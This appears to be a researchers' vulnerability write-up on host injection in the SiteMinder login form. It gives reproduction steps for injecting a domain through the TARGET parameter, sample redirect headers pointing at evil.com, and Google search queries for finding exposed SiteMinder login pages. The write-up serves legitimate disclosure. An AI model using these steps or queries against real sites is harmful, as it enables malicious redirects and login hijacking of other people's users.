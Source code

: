 # Host Manipulation Vulnerability

# Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.
<br> 
<br> 
                                                                                                
# Step to reproduce:
- On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
-  After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:
<br> 
<br> 

```php
Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd
```
 <br> 
 
```php
Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f
```
<br> 

# Proof of Concept:
## First Redirect (Secure Redirect)
<img src="https://i.imgur.com/jQtU2XL.png">

<br> 
<br> 

## Second Redirect (After Inject)
<img src="https://i.imgur.com/WsVUBw8.png">
<br>  
<br> 

# Google Hacking:
intitle:"SiteMinder Password Services"

inurl:"/siteminderagent/forms/login.fcc"

Researchers:
Ricardo Martins - A.K.A r00t1ng and Kayky Vinicius - A.K.A Divsz
